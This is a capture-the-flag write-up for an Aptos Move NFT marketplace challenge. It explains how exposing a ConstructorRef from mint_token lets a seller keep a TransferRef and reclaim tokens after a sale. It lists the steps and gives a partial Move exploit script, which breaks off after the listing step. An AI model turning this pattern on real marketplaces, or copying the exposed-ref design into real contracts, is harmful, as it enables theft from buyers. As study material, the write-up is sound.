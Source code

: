 # CTF Challenge 3: The ConstructorRef Leak

## Vulnerability 

The `mint_token` function in nft_marketplace contract returns `ConstructorRef`
which exposes it. constructor_ref can be used to generate Transfer_ref which can be stored by the creator of the nft. Once the token get sold, he can relaim the ownership by using the transfer_ref. 

### Steps followed:-

1) User 1 creates a nft by calling `mint_token` function
2) `mint_token` returns token object and `ConstructorRef`.
3) User 1 uses the constructor_ref to generate `TransferRef` which can be stored.
4) Now, User 1 list the nft at marketplace.
5) User 2 buys the nft and User 1 get the money.
6) Now user 1 used the stored `TransferRef` to generate `LinearTransferRef` which will be then used to transfer the nft ownership back to User 1.
7) Now, User 1 can use this vulnerability all the the time to sell nfts and reclaim the nft 


## Cause 
- Exposure of ConstructorRef
- ConstructorRef can be used to generate Refs that are used to transfer the ownership the object.


## Code to exploit the vulnerability

```rust

script {
    use std::signer;
    use std::string::{Self, String};
    use aptos_framework::object::{Self, Object, generate_transfer_ref, generate_linear_transfer_ref, transfer_with_ref};
    use aptos_framework::coin;
    use aptos_framework::aptos_coin::AptosCoin;
    use 0x42::nft_marketplace;
    

    fun test_nft_marketplace(creator: signer, buyer: signer) {

        // Get addresses of creator (seller) and buyer
        let seller_addr = signer::address_of(&creator);
        let buyer_addr = signer::address_of(&buyer);

        // Step 1: Mint a token
        let name = string::utf8(b"Steal Token");
        let description = string::utf8(b"Gonna steal your money");
        let uri = string::utf8(b"https://example.com/token");
        let (token, constructor_ref) = nft_marketplace::mint_token(&creator, name, description, uri);


        let owner = nft_marketplace::get_token_owner(token);
        assert!(owner == seller_addr, 0);

        // Step 2: List the token for sale
        let price = 100; 
        nft_marketplace::list_token_for_sale(&creator, token, price);

        // Capture initial balances
        let initial_seller_balance = coin::balance<AptosCoin>(seller_addr);
```